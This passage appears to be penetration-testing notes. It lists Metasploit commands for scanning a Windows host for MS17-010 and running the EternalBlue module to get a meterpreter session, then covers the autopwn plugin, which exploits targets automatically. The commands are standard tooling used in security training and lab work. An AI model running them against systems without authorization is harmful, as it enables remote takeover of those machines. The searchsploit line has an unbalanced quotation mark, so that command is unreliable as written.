We need to enumerate the service so we can fill in the variables correctly (port etc.)

msf6:`services`

We take a step back into msf.

msf6:`services`

If we want to search for a msf module, we can use the `search` command or we can use the inbuilt kali linux searchsploit utility:

msf6:`searchsploit "Microsoft Windows SMB | grep -e "Metasploit"`

msf6:`search eternalblue`

First we use the auxiliary module to check if the target is vulnerable:

msf6:`use auxiliary/scanner/smb/smb_ms17_010`

msf6:`show options`

msf6:`run`

msf6:`use exploit/windows/smb/ms17_010_eternalblue`

msf6:`show options`: check if correctly configured

msf6:`run`

We get a meterpreter session.

### Metasploit AutoPWN

https://github.com/hahwul/metasploit-autopwn

The `metasploit-autopwn` repository provides a script that replicates the classic "Autopwn" feature in Metasploit, automating the process of scanning for vulnerabilities, selecting appropriate exploits, and executing them against a target system. It handles exploit management, payload selection, and session handling automatically, simplifying penetration testing tasks. This tool is useful for quickly identifying and exploiting vulnerabilities, but should only be used ethically and with proper authorization.

download repo and move it into /usr/share/metasploit-framework/plugins

msf6:`load db_autopwn`

msf6:`db_autopwn`

msf6:`db_autopwn -p -t`

Specify port range:

msf6:`db_autopwn -p -t -PI 445`

The next step would be enumerate more infos and finding the appropriate exploit to use.

### Analyze command:

Analyzes the contents of the msf databases (hosts and services), and create a list of vulnerabilites the services suffer from.

msf6:`analyze`
